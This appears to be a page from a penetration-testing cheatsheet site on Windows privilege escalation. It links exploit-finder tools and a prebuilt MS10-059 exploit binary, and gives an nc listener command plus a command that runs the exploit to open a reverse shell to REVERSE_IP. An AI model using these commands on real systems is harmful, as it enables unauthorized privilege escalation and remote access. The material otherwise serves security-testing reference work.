 ```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Privilege Escalation
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**Exploit Finders**
===================

**PowerUp - PowerShellMafia**
-----------------------------
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

**Watson**
-----------------------------
https://github.com/rasta-mouse/Watson

**PowerLess - Pre-Powershell Checks**
-----------------------------
https://github.com/M4ximuss/Powerless

**Windows-Exploit-Suggester**
-----------------------------
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

**Exploits**
============

**MS10-059 | CVE-2010-2554 | CVE-2010-2555**
------------------
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

```
nc -nlvp REVERSE_PORT
MS10-059.exe REVERSE_IP REVERSE_PORT
```
